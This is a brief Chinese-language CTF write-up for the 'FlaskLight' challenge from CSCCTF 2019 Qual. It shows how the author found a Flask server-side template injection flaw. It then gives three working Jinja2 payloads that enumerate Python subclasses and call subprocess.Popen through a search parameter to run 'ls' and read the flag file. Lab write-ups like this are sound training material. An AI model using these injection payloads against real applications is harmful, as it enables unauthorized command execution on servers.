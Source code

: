 # \[CSCCTF 2019 Qual]FlaskLight

## \[CSCCTF 2019 Qual]FlaskLight

## 考点

* Flask SSTI

## wp

![](<../../.gitbook/assets/image (14) (1) (1) (1) (1).png>)

F12，给了提示

![](<../../.gitbook/assets/image (19) (1) (1) (1) (1) (1) (1) (1).png>)

题目是名字Flask，尝试一下SSTI

![](<../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png>)

然后找可以利用的类

```
?search={{[].__class__.__mro__[1].__subclasses__()}}
?search={{[].__class__.__mro__[1].__subclasses__()[258]("ls",shell=True,stdout=-1).communicate()[0]}}
?search={{[].__class__.__mro__[1].__subclasses__()[258]("cat flasklight/coomme_geeeett_youur_flek",shell=True,stdout=-1).communicate()[0]}}
```

## 小结

1. 常规Flask SSTI
